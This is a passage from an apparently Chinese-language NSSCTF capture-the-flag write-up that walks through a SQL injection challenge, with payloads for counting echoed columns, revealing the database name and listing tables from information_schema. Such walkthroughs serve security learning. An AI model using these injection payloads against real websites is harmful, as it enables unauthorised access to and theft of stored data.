 ![image-20250807092522049](./NSSCTF-4.assets/image-20250807092522049.png)

**查询回显位**

```
1)))))) group by 2 --+
```

测试结果为2

**爆库**

```
1)))))) union select 1,database() --+
```

![image-20250807092736543](./NSSCTF-4.assets/image-20250807092736543.png)

数据库为ctf

**爆表**

```
1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```
